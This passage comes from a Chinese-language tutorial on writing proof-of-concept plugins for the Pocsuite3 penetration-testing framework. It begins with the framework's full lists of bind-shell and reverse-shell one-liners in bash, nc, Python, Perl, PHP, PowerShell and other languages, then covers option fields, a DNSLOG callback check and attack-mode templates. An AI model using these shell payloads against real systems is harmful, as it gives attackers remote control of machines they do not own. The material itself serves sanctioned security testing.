                      'RUBY': 'ruby -rsocket -e \'exit if fork;s=TCPServer.new("{0}");while(c=s.accept);while(cmd=c.gets);IO.popen(cmd,"r"){{|io|c.print io.read}}end;end\'',
                      'NC2': 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -lvp {0} >/tmp/f',
                      'AWK': 'awk \'BEGIN{{s="/inet/tcp/{0}/0/0";do{{if((s|&getline c)<=0)break;if(c){{while((c|&getline)>0)print $0|&s;close(c)}}}} while(c!="exit")close(s)}}\'',
                      'TELNETD': 'telnetd -l /bin/sh -p {0}',
                      'NC3': 'rm -rf /tmp/f;mkfifo /tmp/f||mknod /tmp/f p;(nc -l -p {0}||nc -l {0})0</tmp/f|/bin/sh>/tmp/f 2>&1;rm /tmp/f',
                      'R': 'R -e "s<-socketConnection(port={0},blocking=TRUE,server=TRUE,open=\'r+\');while(TRUE){{writeLines(readLines(pipe(readLines(s,1))),s)}}"',
                      '__dict__': <attribute '__dict__' of 'BIND_PAYLOAD' objects>,
                      '__weakref__': <attribute '__weakref__' of 'BIND_PAYLOAD' objects>,
                      '__doc__': None})
        
        In [3]: REVERSE_PAYLOAD.__dict__
        Out[3]:
        mappingproxy({'__module__': 'pocsuite3.modules.listener.reverse_tcp',
                      'NC': 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {0} {1} >/tmp/f',
                      'NC2': 'nc -e /bin/sh {0} {1}',
                      'NC3': 'rm -f /tmp/p;mknod /tmp/p p && nc {0} {1} 0/tmp/p',
                      'BASH0': 'sh -i >& /dev/tcp/{0}/{1} 0>&1',
                      'BASH': "bash -c 'sh -i >& /dev/tcp/{0}/{1} 0>&1'",
                      'BASH2': "bash -c 'sh -i &gt;&amp; /dev/tcp/{0}/{1} 0&gt;&amp;1'",
                      'TELNET': 'rm -rf /tmp/p;mkfifo /tmp/p||mknod /tmp/p p;telnet {0} {1} 0</tmp/p|/bin/sh 1>/tmp/p',
                      'PERL': 'perl -e \'use Socket;$i="{0}";$p={1};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");}};\'',
                      'PYTHON': 'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{0}",{1}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'',
                      'PHP': 'php -r \'$sock=fsockopen("{0}",{1});exec("/bin/sh -i <&3 >&3 2>&3");\'',
                      'RUBY': 'ruby -rsocket -e \'exit if fork;c=TCPSocket.new("{0}","{1}");while(cmd=c.gets);IO.popen(cmd,"r"){{|io|c.print io.read}}end\'',
                      'JAVA': 'r = Runtime.getRuntime()\np = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/{0}/{1};cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])\np.waitFor()',
                      'POWERSHELL': "$client = New-Object System.Net.Sockets.TCPClient('{0}',{1});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{{0}};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([textencoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}};$client.Close()",
                      'OPENSSL': 'rm -rf /tmp/s;mkfifo /tmp/s||mknod /tmp/s p;/bin/sh -i </tmp/s 2>&1|openssl s_client -quiet -connect {0}:{1}>/tmp/s;rm -rf /tmp/s',
                      'PHP_SSL': 'php -r \'$ctxt=stream_context_create(["ssl"=>["verify_peer"=>false,"verify_peer_name"=>false]]);while($s=@stream_socket_client("ssl://{0}:{1}",$erno,$erstr,30,STREAM_CLIENT_CONNECT,$ctxt)){{while($l=fgets($s)){{exec($l,$o);$o=implode("\n",$o);$o.="\n";fputs($s,$o);}}}}\'&',
                      'NC4': 'nc {0} {1} -e /bin/sh',
                      'BASH3': "bash -c '0<&173-;exec 173<>/dev/tcp/{0}/{1};sh <&173 >&173 2>&173'",
                      'TELNET2': 'rm -f /tmp/p; mknod /tmp/p p && telnet {0} {1} 0/tmp/p',
                      'NC5': 'rm -rf /tmp/p;mkfifo /tmp/p||mknod /tmp/p p;nc {0} {1} 0</tmp/p|/bin/sh 1>/tmp/p',
                      'LUA': 'lua -e "local s=require(\'socket\');local t=assert(s.tcp());t:connect(\'{0}\',{1});while true do local r,x=t:receive();local f=assert(io.popen(r,\'r\'));local b=assert(f:read(\'*a\'));t:send(b);end;f:close();t:close();"',
                      'PERL_SSL': 'perl -e \'use IO::Socket::SSL;$p=fork;exit,if($p);$c=IO::Socket::SSL->new(PeerAddr=>"{0}:{1}",SSL_verify_mode=>0);while(sysread($c,$i,8192)){{syswrite($c,`$i`);}}\'',
                      'RUBY2': 'ruby -rsocket -e\'f=TCPSocket.open("{0}",{1}).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)\'',
                      'RUBY_SSL': 'ruby -rsocket -ropenssl -e \'exit if fork;c=OpenSSL::SSL::SSLSocket.new(TCPSocket.new("{0}","{1}")).connect;while(cmd=c.gets);IO.popen(cmd.to_s,"r"){{|io|c.print io.read}}end\'',
                      'NCAT_SSL': 'ncat -e /bin/sh --ssl {0} {1}',
                      '__dict__': <attribute '__dict__' of 'REVERSE_PAYLOAD' objects>,
                      '__weakref__': <attribute '__weakref__' of 'REVERSE_PAYLOAD' objects>,
                      '__doc__': None})
        
        #使用方式，直接fomart填入ip和端口就返回payload了
        In [8]: REVERSE_PAYLOAD.BASH.format('127.0.0.1', 6666)
        Out[8]: "bash -c 'sh -i >& /dev/tcp/127.0.0.1/6666 0>&1'"
        
        ```

##### **自定义输入参数的 PoC**

- 如果你需要编写一个可以交互参数的 PoC 文件（例如有的 PoC 脚本需要填写登录信息，或者任意命令执行时执行任意命令），那么可以在 PoC 文件中声明一个 `_options` 方法。一个简单的例子如下：

- ```python
    def _options(self):
        o = OrderedDict()
        o["username"] = OptString('', description='这个poc需要用户登录，请输入登录账号', require=True)
        o["password"] = OptString('', description='这个poc需要用户密码，请输出用户密码', require=False)
        return o
    ```

- POCBase会调用这个函数返回结果赋值给`self.options`。

- 你可以在 `console` 或者 `cli` 模式下调用。

    - 在 console 模式下，Pocsuite3 模仿了 Metasploit 的操作模式，你只需要使用 `set` 命令来设置相应的参数，然后 `run` 或者 `check` 来执行（`attack` 和 `shell` 命令也可以）。
    - 在 cli 模式下，如上面例子所示，定义了 `username` 和 `password` 两个字段，你可以在参数后面加上 `--username test --password test` 来调用执行，需要注意的是，如果你的参数中包含了空格，用双引号 `"` 来包裹它。

- 和上面类似，如果你想使用自定义的字段，将它定义到 `_options` 方法中，然后返回一个数组。

- Pocsuite3 支持的自定义字段类型如下：

    ```
    from pocsuite3.api import OptString, OptDict, OptIP, OptPort, OptBool, OptInteger, OptFloat, OptItems
    ```

    | 字段类型   | 字段描述                                                     | 参数解释                                                     | 相关例子 |
    | ---------- | ------------------------------------------------------------ | ------------------------------------------------------------ | -------- |
    | OptString  | 接收字符串类型参数                                           | default: 传入一个默认值 descript: 字段描述，默认为空 require: 是否必须，默认 False |          |
    | OptDict    | 接收一个字典类型参数，在选择上如果选择 key，调用时会调用对应的 value | default: 传入一个默认值 descript: 字段描述，默认为空 require: 是否必须，默认 False |          |
    | OptIP      | 接收 IP 类型的字符串                                         | default: 传入一个默认值 descript: 字段描述，默认为空 require: 是否必须，默认 False |          |
    | OptPort    | 接收端口类型参数                                             | default: 传入一个默认值 descript: 字段描述，默认为空 require: 是否必须，默认 False |          |
    | OptBool    | 接收布尔类型参数                                             | default: 传入一个默认值 descript: 字段描述，默认为空 require: 是否必须，默认 False |          |
    | OptInteger | 接收整数类型参数                                             | default: 传入一个默认值 descript: 字段描述，默认为空 require: 是否必须，默认 False |          |
    | OptFloat   | 接收浮点数类型参数                                           | default: 传入一个默认值 descript: 字段描述，默认为空 require: 是否必须，默认 False |          |
    | OptItems   | 接收 list 类型参数                                           | default: 传入一个默认值 selectd: 默认选择 descript: 字段描述，默认为空 require: 是否必须，默认 False |          |

    需要注意的是，`console` 模式支持所有的参数类型，`cli` 模式除了`OptDict`、`OptBool`、`OptItems` 类型外都支持。

##### DNSLOG

- CEye()类：

    - ```python
            def _verify(self):
                result = {}
                oob = CEye()
                #访问dnslog，生成一个独特的子域名，也就是flag。
                v = oob.build_request(value='')
                url, flag = v['url'], v['flag']
                #访问这个独特的连接
                param = f'curl {url}'
                res = self._exploit(param)
                #通过ceye对象查询是否存在这个flag，就可以判定靶机进行了url请求
                if oob.verify_request(flag):
                    result['VerifyInfo'] = {}
                    result['VerifyInfo']['URL'] = self.url
                    result['VerifyInfo'][param] = res
                return self.parse_output(result)
        
        ```

    - 首次使用会提示输入 [`CEye API key`](http://ceye.io/profile)，验证可用后会保存到 `$HOME/.pocsuiterc` 文件中，除非 token 过期，下次使用不会重复询问，也可使用 `--ceye-token` 参数提供。

    - 


##### 其他

值得一提的是，针对有回显的漏洞，只要在 PoC 中实现一个 `_exploit` 方法，就可轻松实现 Pocsuite3 的 `_verify`、`_attack`、`_shell` 三种模式，如下：

```python
# 重写这个方法
def _exploit(self, cmd='id'):
    result = ''
    res = requests.get(self.url)
    logger.debug(res.text)
    result = res.text
    return result

# 验证漏洞存在
def _verify(self):
    result = {}
    if not self._check():
        return self.parse_output(result)

    flag = random_str(10)
    cmd = f'echo {flag}'
    res = self._exploit(cmd)
    if flag in res:
        result['VerifyInfo'] = {}
        result['VerifyInfo']['URL'] = self.url
        result['VerifyInfo'][cmd] = res
    return self.parse_output(result)

def _options(self):
    o = OrderedDict()
    o['cmd'] = OptString('id', description='The command to execute')
    return o

# 从命令行参数获取用户命令，并输出命令执行结果
def _attack(self):
    result = {}
    if not self._check():
        return self.parse_output(result)

    cmd = self.get_option('cmd')
    res = self._exploit(cmd)
    result['VerifyInfo'] = {}
    result['VerifyInfo']['URL'] = self.url
    result['VerifyInfo'][cmd] = res
    return self.parse_output(result)

# 交互 shell 模式
def _shell(self):
    return bind_shell(self, '_exploit')

```

##### poc编写规范

- 编写 PoC 的时候，尽量不要使用第三方模块，如果在无法避免的情况下，请在 PoC 的基础信息部分，增加 `install_requires` 字段，按照以下格式填写依赖的模块名。

    - ```python
        install_requires =[str_item_, str_item, …] # 整个字段的值为 list，每个项为一个依赖模块。
        ```

    - str_item 格式：`模块名[><=]版本号`，模块名为 pip install 安装时的模块名（请不要填写 import 的模块名）。

    - 如果遇到安装时模块名与调用时的不一致情况，用 `:` 分割开，例如常见的加密算法库 `pycryptodome`，但是调用是以 `from Crypto.Cipher import AES`，此时就需要如下填写：

        - ```
            install_requires = ['pycryptodome>=3.12.0:Crypto']
            ```

    - `install_requires` 这个属性存在的意义是方便管理引入的第三方模块，加载 PoC 的时候如果检测到用户没有安装这个模块，可以提示用户安装模块后再继续运行。还有一个场景是可以通过代码解析出该属性然后自动安装相应模块，方便自动化解决依赖。无法用于导入模块，导入请手动 `import` 。

- 编写 PoC 的时候，尽量的使用 Pocsuite3 已经封装的 API 提供的方法，避免自己重复造轮子，对于一些通用方法可以加入到 API，具体参考

    - | 方法                                      | 说明                           |
        | ----------------------------------------- | ------------------------------ |
        | from pocsuite3.api import logger          | 日志记录，比如logger.log(info) |
        | from pocsuite3.api import requests        | 请求类，用法同 requests        |
        | from pocsuite3.api import Seebug          | Seebug api 调用                |
        | from pocsuite3.api import ZoomEye         | ZoomEye api 调用               |
        | from pocsuite3.api import Shodan          | Shodan api 调用                |
        | from pocsuite3.api import Fofa            | Fofa api 调用                  |
        | from pocsuite3.api import Quake           | Quake api 调用                 |
        | from pocsuite3.api import Hunter          | Hunter api 调用                |
        | from pocsuite3.api import Censys          | Censys api 调用                |
        | from pocsuite3.api import CEye            | CEye api 调用                  |
        | from pocsuite3.api import Interactsh      | Interactsh api 调用            |
        | from pocsuite3.api import crawl           | 简单爬虫功能                   |
        | from pocsuite3.api import PHTTPServer     | Http 服务功能                  |
        | from pocsuite3.api import REVERSE_PAYLOAD | 反向连接 shell payload         |
        | from pocsuite3.api import get_results     | 获取结果                       |
